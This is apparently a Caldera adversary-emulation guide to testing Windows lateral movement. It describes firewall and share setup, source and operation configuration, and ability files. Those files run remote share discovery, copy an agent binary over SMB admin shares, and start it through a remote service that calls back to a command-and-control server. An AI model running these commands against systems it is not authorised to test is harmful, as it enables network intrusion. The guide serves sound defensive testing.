

Windows Lateral Movement Guide¶
Exercising Caldera’s lateral movement and remote execution abilities allows you to test how easily an adversary can move within your network. This guide will walk you through some of the necessary setup steps to get started with testing lateral movement in a Windows environment.
Setup¶
Firewall Exceptions and Enabling File and Printer Sharing¶
The firewall of the target host should not be blocking UDP ports 137 and 138 and TCP ports 139 and 445. The firewall should also allow inbound file and printer sharing.
netsh advfirewall firewall set rule group="File and Printer Sharing" new enable=Yes
User with Administrative Privileges¶
This guide will assume a user with administrative privileges to the target host has been compromised and that a CALDERA agent has been spawned with this user’s privileges. Some methods of lateral movement may depend on whether (1) the user has administrative privileges but is not a domain account or (2) the user has administrative privileges and is a domain account. The example walkthrough in this guide should not be impacted by these distinctions.
Additional Considerations¶
Ensure GPO/SRP or antivirus is not blocking remote access to shares.
Ensure at least ADMIN$, C$, and IPC$ shares exist on the target host.
Lateral Movement Using CALDERA¶
Lateral movement can be a combination of two steps. The first requires confirmation of remote access to the next target host and the movement or upload of the remote access tool (RAT) executable to the host. The second part requires execution of the binary, which upon callback of the RAT on the new host would complete the lateral movement.
Most of CALDERA’s lateral movement and execution abilities found in Stockpile have fact or relationship requirements that must be satisfied. This information may be passed to the operation in two ways:
The fact and relationship information may be added to an operation’s source. A new source can be created or this information can be added to an already existing source as long as that source is used by the operation. When configuring an operation, open the “AUTONOMOUS” drop down section and select “Use [insert source name] facts” to indicate to the operation that it should take in fact and relationship information from the selected source.
The fact and relationship information can be discovered by an operation. This requires additional abilities to be run prior to the lateral movement and execution abilities to collect the necessary fact and relationship information necessary to satisfy the ability requirements.
Moving the Binary¶
There are several ways a binary can be moved or uploaded from one host to another. Some example methods used in CALDERA’s lateral movement abilities include:
WinRM
SCP
wmic
SMB
psexec
Based on the tool used, additional permissions may need to be changed in order for users to conduct these actions remotely.
Execution of the Binary¶
CALDERA’s Stockpile execution abilities relevant to lateral movement mainly use wmic to remotely start the binary. Some additional execution methods include modifications to Windows services and scheduled tasks. The example in this guide will use the creation of a service to remotely start the binary (ability file included at the end of this guide).
See ATT&CK’s Execution tactic page for more details on execution methods.
Displaying Lateral Movement in Debrief¶
Using the adversary profile in this guide and CALDERA’s Debrief plugin, you can view the path an adversary took through the network via lateral movement attempts. In the Debrief modal, select the operation where lateral movement was attempted then select the Attack Path view from the upper right hand corner of graph views. This graph displays the originating C2 server and agent nodes connected by the execution command linking the originating agent to the newly spawned agent.
In the example attack path graph below, the Service Creation Lateral Movement adversary profile was run on the win10
host, which moved laterally to the VAGRANTDC machine via successful execution of the Service Creation ability.

This capability relies on the origin_link_id field to be populated within the agent profile upon first
check-in and is currently implemented for the default agent, Sandcat. For more information about the #{origin_link_id}
global variable, see the explanation of Command in the Abilities
section of the Basic Usage guide. For more information about how lateral movement tracking is implemented
in agents to be used with CALDERA, see the Lateral Movement Tracking
section of the How to Build Agents guide.
Example Lateral Movement Profile¶
This section will walkthrough the necessary steps for proper execution of the Service Creation Lateral Movement adversary profile. This section will assume successful setup from the previous sections mentioned in this guide and that a Sandcat agent has been spawned with administrative privileges to the remote target host. The full ability files used in this adversary profile are included at the end of this guide.
Go to
navigatepane >Advanced>sources. This should open a new sources modal in the web GUI.Click the toggle to create a new source. Enter “SC Source” as the source name. Then enter
remote.host.fqdnas the fact name and the FQDN of the target host you are looking to move laterally to as the fact value. ClickSaveonce source configuration has been completed.Go to
navigatepane >Campaigns>operations. Click the toggle to create a new operation. UnderBASIC OPTIONSselect the group with the relevant agent and the Service Creation Lateral Movement profile. UnderAUTONOMOUS, selectUse SC Source facts. If the source created from the previous step is not available in the drop down, try refreshing the page.Once operation configurations have been completed, click
Startto start the operation.Check the agents list for a new agent on the target host.
Ability Files Used¶
- id: deeac480-5c2a-42b5-90bb-41675ee53c7e
name: View remote shares
description: View the shares of a remote host
tactic: discovery
technique:
attack_id: T1135
name: Network Share Discovery
platforms:
windows:
psh:
command: net view \\#{remote.host.fqdn} /all
parsers:
plugins.stockpile.app.parsers.net_view:
- source: remote.host.fqdn
edge: has_share
target: remote.host.share
cmd:
command: net view \\#{remote.host.fqdn} /all
parsers:
plugins.stockpile.app.parsers.net_view:
- source: remote.host.fqdn
edge: has_share
target: remote.host.share
- id: 65048ec1-f7ca-49d3-9410-10813e472b30
name: Copy Sandcat (SMB)
description: Copy Sandcat to remote host (SMB)
tactic: lateral-movement
technique:
attack_id: T1021.002
name: "Remote Services: SMB/Windows Admin Shares"
platforms:
windows:
psh:
command: |
$path = "sandcat.go-windows";
$drive = "\\#{remote.host.fqdn}\C$";
Copy-Item -v -Path $path -Destination $drive"\Users\Public\s4ndc4t.exe";
cleanup: |
$drive = "\\#{remote.host.fqdn}\C$";
Remove-Item -Path $drive"\Users\Public\s4ndc4t.exe" -Force;
parsers:
plugins.stockpile.app.parsers.54ndc47_remote_copy:
- source: remote.host.fqdn
edge: has_54ndc47_copy
payloads:
- sandcat.go-windows
requirements:
- plugins.stockpile.app.requirements.not_exists:
- source: remote.host.fqdn
edge: has_54ndc47_copy
- plugins.stockpile.app.requirements.basic:
- source: remote.host.fqdn
edge: has_share
- plugins.stockpile.app.requirements.no_backwards_movement:
- source: remote.host.fqdn
- id: 95727b87-175c-4a69-8c7a-a5d82746a753
name: Service Creation
description: Create a service named "sandsvc" to execute remote Sandcat binary named "s4ndc4t.exe"
tactic: execution
technique:
attack_id: T1569.002
name: 'System Services: Service Execution'
platforms:
windows:
psh:
timeout: 300
cleanup: |
sc.exe \\#{remote.host.fqdn} stop sandsvc;
sc.exe \\#{remote.host.fqdn} delete sandsvc /f;
taskkill /s \\#{remote.host.fqdn} /FI "Imagename eq s4ndc4t.exe"
command: |
sc.exe \\#{remote.host.fqdn} create sandsvc start= demand error= ignore binpath= "cmd /c start C:\Users\Public\s4ndc4t.exe -server #{server} -v -originLinkID #{origin_link_id}" displayname= "Sandcat Execution";
sc.exe \\#{remote.host.fqdn} start sandsvc;
Start-Sleep -s 15;
Get-Process -ComputerName #{remote.host.fqdn} s4ndc4t;